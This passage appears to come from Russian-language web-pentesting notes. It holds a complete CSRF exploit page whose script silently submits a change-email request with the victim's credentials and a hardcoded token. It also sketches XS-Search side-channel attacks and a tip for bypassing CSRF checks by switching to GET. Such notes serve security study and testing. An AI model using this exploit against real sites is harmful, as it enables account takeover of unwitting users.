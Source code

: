 или CSRF Exploit via fetch mechanism

```markup
<!DOCTYPE html>
<html>
    <head>
        <title>CSRF Exploit via js/fetch</title>
    </head>
    <body>
        <div>Test</div>
        <script>
            let data = {
                email: 'carlos-was-here@normal-users.net',
                csrf: 'G3dL0Wq0QSDmZyFTIgcGODJywPgVKR8v'
            };
            fetch("https://server.net/change-email", {
                method: 'POST',
                mode: 'no-cors',
                cache: 'no-cache',
                body: new URLSearchParams(data),
                credentials: 'include',
                headers: {
                    Cookie: 'csrfKey=4dX2Yco3WYR1gnSouSIoMsRP4AZSuFmr;',
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                redirect: 'follow'
            });
        </script>

    </body>
</html>
```

### XS-Search

Это Side-Channel атака для получения доступа к информации, к которой другие пользователи имеют доступ, а атакующий не имеет

Необходимо:&#x20;

* CSRF
* Возможность предугадывать, есть ли контент или нет

Подробно и примеры:\
[https://book.hacktricks.xyz/pentesting-web/xs-search](https://book.hacktricks.xyz/pentesting-web/xs-search)\
[https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html](https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html)

### Mistakes

* Проверка CSRF-токена зависит от типа HTTP-запроса

Проверка CSRF-токен может быть включена для POST/PUT-запросов, но выключена для GET-запроса. Можно попробовать все параметры перегнать в GET-параметры и сделать такой запрос.
